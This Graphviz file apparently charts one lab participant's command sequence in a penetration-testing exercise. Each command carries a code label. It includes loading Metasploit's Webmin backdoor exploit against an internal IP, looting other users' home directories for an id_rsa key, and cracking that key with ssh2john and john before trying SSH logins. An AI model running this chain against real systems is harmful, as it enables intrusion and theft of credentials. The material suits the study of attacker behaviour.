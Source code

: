 // creating graph for user: 69
digraph {
	node [shape=box]
	0 [label="ls A10 "]
	1 [label="cd .. U"]
	2 [label="ls A10 "]
	3 [label="cd etc U"]
	4 [label="ls A10 "]
	5 [label="cd ... U"]
	6 [label="cd .. U"]
	7 [label="ls A10 "]
	8 [label="cd root U"]
	9 [label="ls A10 "]
	10 [label="ssh 172.18.1.5 -p 10000 A16 "]
	11 [label="ssh 172.18.1.5 A16 "]
	12 [label="metasploit U"]
	13 [label="metasploit U"]
	14 [label="service postgresql start U"]
	15 [label="msfsplayload U"]
	16 [label="msfplayload U"]
	17 [label="msf U"]
	18 [label="msfconsole M2 "]
	19 [label="cd .. U"]
	20 [label="cd home U"]
	21 [label="cd root U"]
	22 [label="cd debian U"]
	23 [label="cd U"]
	24 [label="cd .. U"]
	25 [label="exit U"]
	26 [label="msfconsole U"]
	27 [label="cd .. U"]
	28 [label="cd root U"]
	29 [label="info U"]
	30 [label="help search A3 "]
	31 [label="search 1.920 A3 "]
	32 [label="use exploit/unix/webapp/webmin_backdoor  M8 "]
	33 [label="show options M5 "]
	34 [label="set vhost A6 "]
	35 [label="set lhost 10.1.135.83 A6 "]
	36 [label="set lhost 172.18.1.5  A6 "]
	37 [label="set lport 10 000 A6 "]
	38 [label="set lport 10000 A6 "]
	39 [label="exploit U"]
	40 [label="set rhost 172.18.1.5 A6 "]
	41 [label="ifconfig U"]
	42 [label="set lhost 10.1.135.83 A6 "]
	43 [label="exploit U"]
	44 [label="set rport 10000 A6 "]
	45 [label="set lhost A6 "]
	46 [label="exploit U"]
	47 [label="ls A10 "]
	48 [label="ls A10 "]
	49 [label="cd .. U"]
	50 [label="exit U"]
	51 [label="ls A10 "]
	52 [label="ls A10 "]
	53 [label="mfsconsole U"]
	54 [label="ls A10 "]
	55 [label="msfconsole U"]
	56 [label="show options U"]
	57 [label="set rhost 172.18.1.5 A6 "]
	58 [label="set rport  A6 "]
	59 [label="exit U"]
	60 [label="ls A10 "]
	61 [label="msfconsole U"]
	62 [label="set rport 10000 A6 "]
	63 [label="set shost A6 "]
	64 [label="set rhost A6 "]
	65 [label="set rhost 172.18.1.5 A6 "]
	66 [label="set lhost 10.1.135.83 A6 "]
	67 [label="show options U"]
	68 [label="use 1.920 U"]
	69 [label="set lhost A6 "]
	70 [label="set rhost A6 "]
	71 [label="set rhost 172.18.1.5 A6 "]
	72 [label="set rport 10000 A6 "]
	73 [label="ls A10 "]
	74 [label="cd /root U"]
	75 [label="ls A10 "]
	76 [label="ls A10 "]
	77 [label="cd ..ls A10 "]
	78 [label="cd .. U"]
	79 [label="ls A10 "]
	80 [label="home U"]
	81 [label="cd U"]
	82 [label="ls A10 "]
	83 [label="cd .. U"]
	84 [label="ls A10 "]
	85 [label="cd home U"]
	86 [label="ls A10 "]
	87 [label="cd eve U"]
	88 [label="ls A10 "]
	89 [label="cd .. U"]
	90 [label="ls A10 "]
	91 [label="cd U"]
	92 [label="ls A10 "]
	93 [label="ls A10 "]
	94 [label="cd .. U"]
	95 [label="ls A10 "]
	96 [label="cd home U"]
	97 [label="ls A10 "]
	98 [label="cd alice U"]
	99 [label="ls A10 "]
	100 [label="cd .. U"]
	101 [label="ls A10 "]
	102 [label="cd bob U"]
	103 [label="ls A10 "]
	104 [label="cd U"]
	105 [label="l U"]
	106 [label="ls A10 "]
	107 [label="c d.. U"]
	108 [label="locate A1 A9 A10 A11 A12 A17 "]
	109 [label="find A10 "]
	110 [label="./.bash_historysa U"]
	111 [label="./.bash_history U"]
	112 [label="sudo ./.bash_history U"]
	113 [label="id_rsa U"]
	114 [label="ssh2john.py A14 A16 "]
	115 [label="find ssh2john.py A10 A14 A16 "]
	116 [label="ls A10 "]
	117 [label="cd .. U"]
	118 [label="ls A10 "]
	119 [label="cd home U"]
	120 [label="ls A10 "]
	121 [label="cd eve U"]
	122 [label="ls A10 "]
	123 [label="id U"]
	124 [label="id_rsa eve U"]
	125 [label="ls A10 "]
	126 [label="ls A10 "]
	127 [label="lsa A10 "]
	128 [label="ls a A10 "]
	129 [label="la U"]
	130 [label="ls a A10 "]
	131 [label="list all U"]
	132 [label="list U"]
	133 [label="lsa A10 "]
	134 [label="ssh eve@10.1.17.4 M16 "]
	135 [label="ls A10 "]
	136 [label="cd .. U"]
	137 [label="cd .. U"]
	138 [label="ls A10 "]
	139 [label="john hash A14 "]
	140 [label="john bash A14 "]
	141 [label="/home/eve/.ssh# ssh -l id_rsa eve@172.17.5.4 U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	21 -> 22 [constraint=false]
	22 -> 23 [constraint=false]
	23 -> 24 [constraint=false]
	24 -> 25 [constraint=false]
	25 -> 26 [constraint=false]
	26 -> 27 [constraint=false]
	27 -> 28 [constraint=false]
	28 -> 29 [constraint=false]
	29 -> 30 [constraint=false]
	30 -> 31 [constraint=false]
	31 -> 32 [constraint=false]
	32 -> 33 [constraint=false]
	33 -> 34 [constraint=false]
	34 -> 35 [constraint=false]
	35 -> 36 [constraint=false]
	36 -> 37 [constraint=false]
	37 -> 38 [constraint=false]
	38 -> 39 [constraint=false]
	39 -> 40 [constraint=false]
	40 -> 41 [constraint=false]
	41 -> 42 [constraint=false]
	42 -> 43 [constraint=false]
	43 -> 44 [constraint=false]
	44 -> 45 [constraint=false]
	45 -> 46 [constraint=false]
	46 -> 47 [constraint=false]
	47 -> 48 [constraint=false]
	48 -> 49 [constraint=false]
	49 -> 50 [constraint=false]
	50 -> 51 [constraint=false]
	51 -> 52 [constraint=false]
	52 -> 53 [constraint=false]
	53 -> 54 [constraint=false]
	54 -> 55 [constraint=false]
	55 -> 56 [constraint=false]
	56 -> 57 [constraint=false]
	57 -> 58 [constraint=false]
	58 -> 59 [constraint=false]
	59 -> 60 [constraint=false]
	60 -> 61 [constraint=false]
	61 -> 62 [constraint=false]
	62 -> 63 [constraint=false]
	63 -> 64 [constraint=false]
	64 -> 65 [constraint=false]
	65 -> 66 [constraint=false]
	66 -> 67 [constraint=false]
	67 -> 68 [constraint=false]
	68 -> 69 [constraint=false]
	69 -> 70 [constraint=false]
	70 -> 71 [constraint=false]
	71 -> 72 [constraint=false]
	72 -> 73 [constraint=false]
	73 -> 74 [constraint=false]
	74 -> 75 [constraint=false]
	75 -> 76 [constraint=false]
	76 -> 77 [constraint=false]
	77 -> 78 [constraint=false]
	78 -> 79 [constraint=false]
	79 -> 80 [constraint=false]
	80 -> 81 [constraint=false]
	81 -> 82 [constraint=false]
	82 -> 83 [constraint=false]
	83 -> 84 [constraint=false]
	84 -> 85 [constraint=false]
	85 -> 86 [constraint=false]
	86 -> 87 [constraint=false]
	87 -> 88 [constraint=false]
	88 -> 89 [constraint=false]
	89 -> 90 [constraint=false]
	90 -> 91 [constraint=false]
	91 -> 92 [constraint=false]
	92 -> 93 [constraint=false]
	93 -> 94 [constraint=false]
	94 -> 95 [constraint=false]
	95 -> 96 [constraint=false]
	96 -> 97 [constraint=false]
	97 -> 98 [constraint=false]
	98 -> 99 [constraint=false]
	99 -> 100 [constraint=false]
	100 -> 101 [constraint=false]
	101 -> 102 [constraint=false]
	102 -> 103 [constraint=false]
	103 -> 104 [constraint=false]
	104 -> 105 [constraint=false]
	105 -> 106 [constraint=false]
	106 -> 107 [constraint=false]
	107 -> 108 [constraint=false]
	108 -> 109 [constraint=false]
	109 -> 110 [constraint=false]
	110 -> 111 [constraint=false]
	111 -> 112 [constraint=false]
	112 -> 113 [constraint=false]
	113 -> 114 [constraint=false]
	114 -> 115 [constraint=false]
	115 -> 116 [constraint=false]
	116 -> 117 [constraint=false]
	117 -> 118 [constraint=false]
	118 -> 119 [constraint=false]
	119 -> 120 [constraint=false]
	120 -> 121 [constraint=false]
	121 -> 122 [constraint=false]
	122 -> 123 [constraint=false]
	123 -> 124 [constraint=false]
	124 -> 125 [constraint=false]
	125 -> 126 [constraint=false]
	126 -> 127 [constraint=false]
	127 -> 128 [constraint=false]
	128 -> 129 [constraint=false]
	129 -> 130 [constraint=false]
	130 -> 131 [constraint=false]
	131 -> 132 [constraint=false]
	132 -> 133 [constraint=false]
	133 -> 134 [constraint=false]
	134 -> 135 [constraint=false]
	135 -> 136 [constraint=false]
	136 -> 137 [constraint=false]
	137 -> 138 [constraint=false]
	138 -> 139 [constraint=false]
	139 -> 140 [constraint=false]
	140 -> 141 [constraint=false]
	rankdir=LR
}
